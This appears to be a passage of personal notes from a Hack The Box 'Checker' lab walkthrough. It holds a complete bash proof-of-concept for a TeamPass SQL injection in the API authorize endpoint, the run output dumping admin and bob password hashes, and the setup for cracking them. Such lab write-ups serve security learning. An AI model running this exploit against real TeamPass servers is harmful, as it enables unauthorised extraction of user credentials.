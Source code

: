 ```
/7                    (Status: 429) [Size: 227]
/tools                (Status: 429) [Size: 227]
/28                   (Status: 429) [Size: 227]

```

- 2 websites exist at 80 and 8080
- ![[Pasted image 20250222160046.png]]
- ![[Pasted image 20250222160752.png]]
- 
- Searching for teampass exploits reveals a SQL injection 
	- https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612

	```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```
	- drop below POC into teampassExploit.sh
	- `chmod +x teampassExploit.sh`
	```bash
 kali@kali  ~/htb/checker  ./teampassExploit.sh http://checker.htb:8080                                        
There are 2 users in the system:                                                                                 
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya                                              
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy   
```
	- Drop both hashes into a text file and remove admin and bob from the file
	```bash
	 kali@kali  ~/htb/checker  cat hashes.txt 
$2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy